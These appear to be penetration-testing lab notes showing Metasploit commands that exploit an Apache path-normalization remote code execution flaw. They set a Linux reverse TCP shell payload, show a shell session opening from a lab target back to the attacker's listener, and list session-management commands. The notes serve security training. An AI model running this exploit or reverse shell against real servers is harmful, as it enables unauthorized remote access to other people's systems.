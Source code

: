 Setting payload

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload payload/linux/x64/shell_reverse_tcp
```

Target is HTTP not HTTPS => set SSL to false 

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set SSL false
```

Execute exploit and receive session 2. 

```
[*] Command shell session 2 opened (192.168.119.4:4444 -> 192.168.50.16:35534) at 2022-08-08 05:13:45 -0400
```

##### Sessions

 Ctrl+z - Send session to background
 `sessions -l`-list active sessions
 `sessions -i <session id #>`- interact with session
 `sessions -k <session id #>`- kill session
 `run -j`- launch session in context of a job